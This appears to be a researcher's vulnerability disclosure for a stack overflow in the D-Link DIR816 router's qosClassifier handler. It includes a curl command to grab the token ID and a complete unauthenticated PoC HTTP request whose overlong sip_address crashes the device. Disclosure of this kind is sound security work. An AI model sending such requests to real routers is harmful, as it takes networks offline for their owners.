

# D-Link Vulnerability

Vendor:D-Link

Product:DIR816

Version:1.10CNB05

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)


## Vulnerability description

We found an stack overflow vulnerability in D-Link router with firmware which was released recently, allows remote attackers to crash the server.（without authentication）

Gets the token ID.

```
curl http://192.168.1.1/dir_login.asp | grep tokenid
```

**Stack Overflow**

In `goahead` binary:

In the router's `qosClassifier` function, `dip_address、sip_address` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `dip_address、sip_address` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `dip_address、sip_address` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"></div>

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `sip_address` as **aaaaa......,** , and the router will crash, such as:

```http
POST /goform/qosClassifier HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 448
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/d_wizard_step1_start.asp
Cookie: curShow=
Upgrade-Insecure-Requests: 1

dir=Download&af_index=1&dp_index=1&comment=pjqwudi&mac_address=9C:2D:CD:B1:73:E5&dip_address=192.168.2.1&sip_address=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&pktlenfrom=1&pktlento=1&protocol=ICMP&dFromPort=1&dToPort=1&sFromPort=1&sToPort=1&layer7=1&dscp=1&remark_dscp=1&tokenid=1189641421
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
